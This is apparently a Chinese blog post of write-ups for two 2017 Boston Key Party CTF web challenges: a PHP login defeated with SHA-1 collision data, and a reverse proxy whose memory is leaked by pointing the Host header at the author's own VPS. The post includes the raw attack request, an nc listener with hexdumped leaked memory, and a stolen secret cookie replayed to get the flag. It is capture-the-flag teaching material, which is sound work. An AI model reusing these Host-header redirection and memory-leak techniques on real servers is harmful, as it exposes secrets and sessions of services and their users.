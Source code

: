 ```yaml
---
title: 两道BKP CTF的解答
subtitle: 
time: 2017.03.01 10:00:00
layout: post
catalog: true
tags:
- CTF

excerpt: 第一场CTF国际赛，记录一些笔记。


---
```




这周，跟着实验室各位大佬们参加了BKP的比赛。国际CTF比赛好像更加综合一些，对选手即要求二进制基础也要求Web基础。下面是两道Web题的解答。

# Prudentialv2

这题是修复了2015年出的Prudential的漏洞。

**http://blog.rentjong.net/2015/03/boston-key-party-2015-prudential.html**	

源码可以在index.txt中看到http://54.202.82.13/index.txt

```php
<html>
<head>
	<title>level1</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

<?php
require 'flag.php';

if (isset($_GET['name']) and isset($_GET['password'])) {
    $name = (string)$_GET['name'];
    $password = (string)$_GET['password'];

    if ($name == $password) {
        print 'Your password can not be your name.';
    } else if (sha1($name) === sha1($password)) {
      die('Flag: '.$flag);
    } else {
        print '<p class="alert">Invalid password.</p>';
    }
}
?>

<section class="login">
	<div class="title">
		<a href="./index.txt">Level 1</a>
	</div>

	<form method="get">
		<input type="text" required name="name" placeholder="Name"/><br/>
		<input type="text" required name="password" placeholder="Password" /><br/>
		<input type="submit"/>
	</form>
</section>
</body>
</html>

```

因为string了，而且还是强等于。所以以前的方法基本不行。我们需要找到一对碰撞sha1,才能成功。

结合前天google发的sha-1碰撞论文，**https://shattered.io/static/shattered.pdf**用里面给的两个示例pdf文件进行构造就好。

构造的时候会发现pdf太大了，无法在url中完全带上。然后，看论文中有这么一句：This is an identical-prefix collision attack, where a given prefix P is extended with two distinct near-collision block pairs such that they collide for any suffix S。图片的说明如下：** https://shattered.it/static/pdf_format.png**说明，碰撞部分是pdf中的某一部分，而不是全部。那么我们就可以尝试取pdf的某一部分，进行sha-1,让其碰撞。

找到碰撞部分，以urlencode编码发送请求，就能得到flag



# Accelerated.zone

题目给了一个反向代理，其功能大致有：

1. 8000端口会反向代理7733的数据
2. 反代不管访问啥都会返回500
3. 在逆反向代理，核心用的是这个库https://github.com/rboulton/libmicrohttpd ，大概逻辑是用这个库起了一个server，读取来自用户的输入，然后起一个curl读取远程的内容，再返回
4. 发送给反代的http头部中的host指向的部分，实际控制代理服务器的转发。即host指向哪，服务器就会向那进行转发



后来，问了队友，队友说这题存在内存泄漏，把泄漏数据打到VPS上读取就好了。（可能这就是这个反向代理软件运行久了，就超级烧内存和CPU的原因）

所以，向Accerletated发送一个包，host为自己的VPS，然后查看数据。

这个包需要是POST的数据包，然后content-length需要很大。

```
POST / HTTP/1.1
Host: xx.xx.13.97:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 999999999

123
```

在VPS上可以看到数据

```
[root@cloud ~]# nc -l -vv 7733|hexdump -Cv
Connection from 54.218.82.219 port 7733 [tcp/*] accepted
00000000  50 4f 53 54 20 2f 20 48  54 54 50 2f 31 2e 31 0d  |POST / HTTP/1.1.|
00000010  0a 48 6f 73 74 3a 20 31  31 38 2e 39 39 2e 31 33  |.Host: xx.x.xx|
00000020  2e 39 37 3a 37 37 33 33  0d 0a 41 63 63 65 70 74  |.xx:xx..Accept|
00000030  3a 20 2a 2f 2a 0d 0a 43  6f 6e 74 65 6e 74 2d 4c  |: */*..Content-L|
00000040  65 6e 67 74 68 3a 20 33  38 35 32 37 0d 0a 43 6f  |ength: 38527..Co|
00000050  6e 74 65 6e 74 2d 54 79  70 65 3a 20 61 70 70 6c  |ntent-Type: appl|
00000060  69 63 61 74 69 6f 6e 2f  78 2d 77 77 77 2d 66 6f  |ication/x-www-fo|
00000070  72 6d 2d 75 72 6c 65 6e  63 6f 64 65 64 0d 0a 45  |rm-urlencoded..E|
00000080  78 70 65 63 74 3a 20 31  30 30 2d 63 6f 6e 74 69  |xpect: 100-conti|
00000090  6e 75 65 0d 0a 0d 0a 31  32 33 00 00 00 00 00 00  |nue....123......|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
0088f0  00 11 7e 00 00 00 00 00  00 b8 07 00 c0 b9 7f 00  |..~.............|
00008900  00 b8 07 00 c0 b9 7f 00  00 e0 92 00 c0 b9 7f 00  |................|
00008910  00 e0 92 00 c0 b9 7f 00  00 74 20 69 70 36 2d 6c  |.........t ip6-l|
00008920  6f 63 61 6c 68 6f 73 74  20 69 70 36 2d 6c 6f 6f  |ocalhost ip6-loo|
00008930  70 62 61 63 6b 0a 66 65  30 30 3a 3a 30 09 69 70  |pback.fe00::0.ip|
00008940  36 2d 6c 6f 63 61 6c 6e  65 74 0a 66 66 30 30 3a  |6-localnet.ff00:|
00008950  3a 30 09 69 70 36 2d 6d  63 61 73 74 70 72 65 66  |:0.ip6-mcastpref|
00008960  69 78 0a 66 66 30 32 3a  3a 31 09 69 70 36 2d 61  |ix.ff02::1.ip6-a|
00008970  6c 6c 6e 6f 64 65 73 0a  66 66 30 32 3a 3a 32 09  |llnodes.ff02::2.|
00008980  69 70 36 2d 61 6c 6c 72  6f 75 74 65 72 73 0a 31  |ip6-allrouters.1|
00008990  37 32 2e 31 37 2e 30 2e  32 09 34 32 39 63 35 37  |72.17.0.2.429c57|
000089a0  64 38 38 31 32 34 0a 72  63 68 20 75 73 2d 77 65  |d88124.rch us-we|
000089b0  73 74 2d 32 2e 63 6f 6d  70 75 74 65 2e 69 6e 74  |st-2.compute.int|
000089c0  65 72 6e 61 6c 0a 00 00  00 00 00 00 00 00 00 00  |ernal...........|
```

多打几次会打到一个cookie

```
00007d50  00 00 00 40 87 00 dc 53  7f 00 00 47 87 00 dc 53  |...@...S...G...S|
00007d60  7f 00 00 02 00 00 00 00  00 00 00 73 65 63 72 65  |...........secre|
00007d70  74 00 73 50 62 6b 54 68  62 32 69 4b 59 4f 38 74  |t.sPbkThb2iKYO8t|
00007d80  5a 53 50 49 31 70 71 77  00 00 00 20 87 00 dc 53  |ZSPI1pqw... ...S|
00007d90  7f 00 00 7a 0a 00 dc 53  7f 00 00 8a 0a 00 dc 53  |...z...S.......S|
```



Cookie: secret=sPbkThb2iKYO8tZSPI1pqw

然后，带着cookie访问，就能得到flag

```
GET / HTTP/1.1
Host: accelerated.zone:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: secret=sPbkThb2iKYO8tZSPI1pqw
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 63
Content-Type: text/html; charset=UTF-8
Date: Sun, 26 Feb 2017 03:47:37 GMT

FLAG{ISwearIWroteThisChallengeWeeksAgo}Get better cookies bro.
```

